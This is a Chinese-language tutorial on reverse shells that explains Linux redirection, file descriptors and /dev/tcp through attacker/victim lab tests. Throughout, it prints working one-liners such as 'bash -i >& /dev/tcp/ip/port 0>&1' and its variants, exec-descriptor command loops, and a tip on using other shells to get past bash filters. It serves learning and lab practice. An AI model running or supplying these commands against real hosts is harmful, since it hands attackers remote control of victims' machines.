## 反弹shell

反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。

攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

深入理解文件描述符和重定向才能更好弄懂反弹shell

## 场景

1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。 

2.目标机器的ip动态改变，你不能持续控制。

3.建立一个服务端让恶意程序主动连接，持久化。

4.防火墙受限，不能由外向内建立连接(不接受外部连接)。(通过传输层协议的全双工通信实现交互)

备注：

全双工传输 (Full－Duplex Transmissions)

交换机在发送数据的同时也能够接收数据，两者同步进行，这好像我们平时打电话一样，说话的同时也能够听到对方的声音。目前的交换机都支持全双工。

单工数据传输只支持数据在一个方向上传输；在同一时间只有一方能接受或发送信息，不能实现双向通信，举例：电视，广播，计算机与打印机之间的通信是单工模式。

半双工数据传输允许数据在两个方向上传输,但是,在某一时刻,只允许数据在一个方向上传输,它实际上是一种切换方向的单工通信；在同一时间只可以有一方接受或发送信息，可以实现双向通信。举例：对讲机。


维基百科的定义：

全双工（full-duplex）的系统允许二台设备间同时进行双向数据传输。一般的电话、手机就是全双工的系统，因为在讲话时同时也可以听到对方的声音。全双工的系统可以用一般的双向车道形容。两个方向的车辆因使用不同的车道，因此不会互相影响。



## 实验

测试一：

攻击端： 

	[root@attacker]# nc -lvp 2333            //第一步
	Connection from victim_ip:38712
	docker0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 1500
	        inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
	        ether XXXXXXXXXX  txqueuelen 0  (Ethernet)
	        RX packets 0  bytes 0 (0.0 B)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 0  bytes 0 (0.0 B)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
	
	eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
	        inet 172.22.181.6  netmask 255.255.240.0  broadcast 172.22.191.255
	        inet6 fe80::216:3eff:fe0e:9d06  prefixlen 64  scopeid 0x20<link>

	//测试结果：实现了将受害端的标准输出重定向到攻击端，但是还没实现用命令控制受害端。

受害端：

	[root@victim]# bash -i > /dev/tcp/attacker_ip/2333  //第二步
	[root@victim]# ifconfig                  			//第三步
	[root@victim]# 


测试二：

攻击端： 

	[root@attacker]# nc -lvp 2333         //第一步
	Connection from victim_ip:38286
	hostname                              //第三步（攻击端执行命令）
	id
	whoami

受害端：

	[root@victim]# bash -i < /dev/tcp/attacker_ip/2333    //第二步
	[root@victim]# hostname     
	attacker
	[root@victim]# id
	uid=0(root) gid=0(root) groups=0(root)
	[root@victim]# whoami
	root
	[root@victim]# 

	//测试结果：实现了将攻击端的输入重定向到受害端，但是攻击端看不到命令执行结果。

隐蔽性：★★★★★

交互性：★

## 底层原理

输出重定向 ```>```，相当于 ```1>```，输入重定向 ```<```，相当于```0<```，如果要使用错误输出，写成 ```2>```。

例如，把正确的结果放到test.txt，而把错误的结果放到test2.txt文件中：



在正常输入的命令结尾加上```2>&1```，这个语句可以理解为将错误输出与标准输出一致，也就是将他们输出到一个文件中：



**这里的&符号是为了区分文件跟文件描述符的，如果这里没有&符号，系统会把它(1)理解为文件，而不是标准输出**

同理，在错误输出的命令结尾加上```1>&2```，这个语句可以理解为将标准输出与错误输出一致，也就是将他们输出到一个文件中：



查看一个进程打开了哪些文件:

	[root@lee]# nc -lvp 2333

	[root@lee]# netstat -ntlp|grep 2333
	tcp        0      0 0.0.0.0:2333            0.0.0.0:*               LISTEN      16303/nc 

/proc/[进程ID]/fd这个目录专门用于存放文件描述符

	[root@lee]# ll /proc/16303/fd
	total 0
	lrwx------ 1 root root 64 Apr 20 14:41 0 -> /dev/pts/1
	lrwx------ 1 root root 64 Apr 20 14:41 1 -> /dev/pts/1
	lrwx------ 1 root root 64 Apr 20 14:41 2 -> /dev/pts/1
	lrwx------ 1 root root 64 Apr 20 14:41 3 -> socket:[339049416]
	lrwx------ 1 root root 64 Apr 20 14:41 6 -> /dev/pts/1




	cd /dev/pts

	ll



上图的多个**tty我理解为交互式shell(终端)**的数量。tty设备包括虚拟控制台，串口以及伪终端设备。

上图我用xshell起了7个交互式shell,都关闭只保留一个时：



## /dev

dev是设备(device)的英文缩写。这个目录中包含了所有Linux系统中使用的外部设备。是一个访问这些外部设备的端口。我们可以非常方便地去访问这些外部设备，和访问一个文件，一个目录没有任何区别。(**Linux一切皆文件**)

### /dev/null

/dev/null 它是空设备，也称为位桶（bit bucket）或者黑洞(black hole)。你可以向它输入任何数据，但任何写入它的数据都会被抛弃。通常用于处理不需要的输出流。（当然，它也可以作为空的输入流）

例如：



### /dev/zero

[/dev/zero](https://en.wikipedia.org/wiki//dev/zero)

创建一个为NULL填充的文件。

	dd if=/dev/zero of=foobar count=2 bs=1024

	dd：用指定大小的块拷贝一个文件，并在拷贝的同时进行指定的转换。


[linux命令总结dd命令详解](https://www.cnblogs.com/ginvip/p/6370836.html)

### /dev/pty

伪终端(/dev/pty/)

伪终端(Pseudo Terminal)是成对的逻辑终端设备(即master和slave设备, 对master的操作会反映到slave上)。

### /dev/tty

/dev/tty是当前进程的控制终端的设备特殊文件。

### 其他
	
	/dev/hd[a-t]：IDE设备
	/dev/sd[a-z]：SCSI设备
	/dev/fd[0-7]：标准软驱
	/dev/md[0-31]：软raid设备
	/dev/loop[0-7]：本地回环设备
	/dev/ram[0-15]：内存
	/dev/null：无限数据接收设备,相当于黑洞
	/dev/zero：无限零资源
	/dev/tty[0-63]：虚拟终端
	/dev/ttyS[0-3]：串口
	/dev/lp[0-3]：并口
	/dev/console：控制台
	/dev/fb[0-31]：framebuffer
	/dev/cdrom => /dev/hdc
	/dev/modem => /dev/ttyS[0-9]
	/dev/pilot => /dev/ttyS[0-9]
	/dev/random：随机数设备
	/dev/urandom：随机数设备

## bash -i >& /dev/tcp/ip/port 0>&1


bash -i 表示创建一个交互式的shell

```/dev/tcp/ip/port```，这个文件不是存在的，但是当你在监听这个端口的时候，对这个文件进行读写，就可以实现两个主机之间的socket通信


首先我们在攻击机开启监听，然后在Linux机器上输入下面的命令，即将指定字符通过tcp协议发送到攻击机的2333端口：

	echo 1 > /dev/tcp/attacker_ip/2333

攻击机监听:

	nc -lvp 2333
	Connection from victim_ip:49948
	1

UDP发包同理：

	echo 2 > /dev/udp/attacker_ip/2333

攻击机监听:

	nc -luvp 2333
	Received packet from victim_ip:22367 -> 192.168.0.226:2333 (local)
	1

```2>&1``` 将错误输出和标准输出输出到同一个文件(**Linux一切皆文件**):

靶机：

	echo1 1> /dev/tcp/attacker_ip/2333 2>&1

攻击机：

	[root@attacker ~]# nc -lvp 2333 
	Connection from victim_ip:5479
	-bash: echo1: command not found


通过 ```<```将标准输出改成标准输入：

靶机：

	cat < /dev/tcp/attacker_ip/2333
	qwer
	asdf

攻击机：

	nc -lvp 2333 
	Connection from victim_ip:23610
	qwer
	asdf

在攻击机传输的内容会被重定向到靶机。

输入重定向原理：




掌握了上面的原理，可以随意构建反弹shell命令：

攻击：

	nc -lvp 2333

靶机：
	
	bash -i 0< /dev/tcp/ip/2333 1>&0 2>&0

或：

	bash -i 0< /dev/tcp/ip/2333 1>&0 2>&1

	bash -i < /dev/tcp/ip/2333 >&0 2>&1

	bash -i 1> /dev/tcp/ip/2333 0>&1 2>&1
	
	bash -i 1> /dev/tcp/ip/2333 0>&1 2>&0

其他变形：

	bash -i 1>& /dev/tcp/ip/port 0>&1

	bash -i 1>& /dev/tcp/ip/port 0>&2

	bash -i &> /dev/tcp/ip/port 0>&1

	bash -i &> /dev/tcp/ip/port 0>&2


**```bash -i```后的```&>```或```>&```表示混合输出，即标准输出1 + 错误输出2**

[bash 和 sh 的一点儿区别](https://blog.csdn.net/CSDN_FengXingwei/article/details/81635590)

sh 遵循POSIX规范：“当某行代码出错时，不继续往下解释”。bash 就算出错，也会继续向下执行。

简单说，sh是bash的一种特殊的模式，sh就是开启了POSIX标准的bash， /bin/sh 相当于 ```/bin/bash --posix```

在Linux系统上/bin/sh往往是指向/bin/bash的符号链接

```ln -s /bin/bash /bin/sh```

### 其他变形

一般最大打开文件数会是系统内存的10%（以KB来计算）（称之为系统级限制）。查看系统级别的最大打开文件数可以使用下面命令查看：

	#sysctl -a | grep fs.file-max
	fs.file-max = 3247530
	sysctl: reading key "net.ipv6.conf.all.stable_secret"
	sysctl: reading key "net.ipv6.conf.default.stable_secret"
	sysctl: reading key "net.ipv6.conf.docker0.stable_secret"
	sysctl: reading key "net.ipv6.conf.ens160.stable_secret"
	sysctl: reading key "net.ipv6.conf.ens192.stable_secret"
	sysctl: reading key "net.ipv6.conf.ens224.stable_secret"
	sysctl: reading key "net.ipv6.conf.lo.stable_secret"

内核为了不让某一个进程消耗掉所有的文件资源，其也会对单个进程最大打开文件数做默认值处理（称之为用户级限制），默认值一般是1024，```ulimit -n```查看系统默认的文件描述符个数。

例如：

	# ulimit -n
	655360

表示系统支持的文件描述符 0-655359

与系统总内存(KB)的1/10刚好可以对上。

	#free -h
	             total       
	Mem:            31G          

[Linux中的文件描述符与打开文件之间的关系](https://blog.csdn.net/weililansehudiefei/article/details/78113082)

page 1:

打开"File"并且将fd 655359分配给它：

	[j]<>filename
    # 为了读写"filename", 把文件"filename"打开, 并且将文件描述符"j"分配给它.
    # 如果文件"filename"不存在, 那么就创建它.

eg:

	exec 655359<> File           



&- 关闭标准输出

n&- 表示将n号输出关闭

page2:

攻击机：

	[root@attacker]# nc -lvp 2333             # 第一步
	Connection from victim_ip:46414
	helloworld                                # 第三步
	123

受害机：

	[root@victim]# exec 65534<>/dev/tcp/attacker_ip/2333  # 第二步
	[root@victim]# cat <&65534
	helloworld
	123

受害机的文件描述符同步读取到攻击机的写入。

page3:

	[root@attacker]# nc -lvp 2333
	Connection from victim_ip:46536
	id
	11


受害机：

	[root@victim]#exec 65534<>/dev/tcp/attacker_ip/2333;cat <&65534|while read line;do $line;done
	uid=0(root) gid=0(root) groups=0(root)
	-bash: 11: command not found

受害机的文件描述符同步读取到攻击机的写入并通过shell脚本执行；

page4:

受害机的文件描述符同步读取到攻击机的写入并通过shell脚本执行后返回到文件描述符。

	exec 65534<>/dev/tcp/attacker_ip/2333;cat<&65534|while read line;do $line 2>&65534 >&65534;done

## 总结

掌握了原理，可以写出各种变形，例如：	```exec 8<>/dev/tcp/attacker_ip/2333;bash<&8 >&8 2>&8```，大家可以自由发挥。

## 参考资料

[Create a Reverse Shell to Remotely Execute Root Commands Over Any Open Port Using NetCat or BASH](https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/)

[使用NetCat或BASH创建反向Shell来执行远程执行Root命令--**上文翻译**](https://www.ktanx.com/blog/p/532)

[linux exec与重定向](http://xstarcd.github.io/wiki/shell/exec_redirect.html)

## 后记

1.查看系统可用的shell类型：



比如 tcsh，csh，sh等都可以尝试用来绕过bash字符的限制。

在新版kali查看：



2.**给指定用户指定特定的shell权限**：

	chsh -s shell username

例如：

	chsh -s /bin/bash mysql

	chsh -s /sbin/nologin mysql


3.udp反弹shell：





